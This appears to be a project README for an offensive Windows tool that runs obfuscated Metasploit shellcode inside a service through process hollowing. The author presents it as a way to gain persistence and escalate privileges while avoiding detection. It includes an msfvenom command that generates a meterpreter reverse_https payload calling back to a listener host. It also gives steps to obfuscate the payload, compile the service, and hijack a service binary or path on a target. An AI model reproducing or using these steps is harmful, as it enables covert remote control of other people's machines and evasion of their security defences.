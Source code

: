 
This program is a Windows Service with the process hollowing technique that runs shellcode , it requires the ROT "encrypted" shellcode that the user will create with the HollowCrypt program. 
I created this because there were moments where I needed a custom and easy way to run metasploit shellcode on a windows service to persist/privilege escalate, and using the common tools would trigger my binaries . . 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!
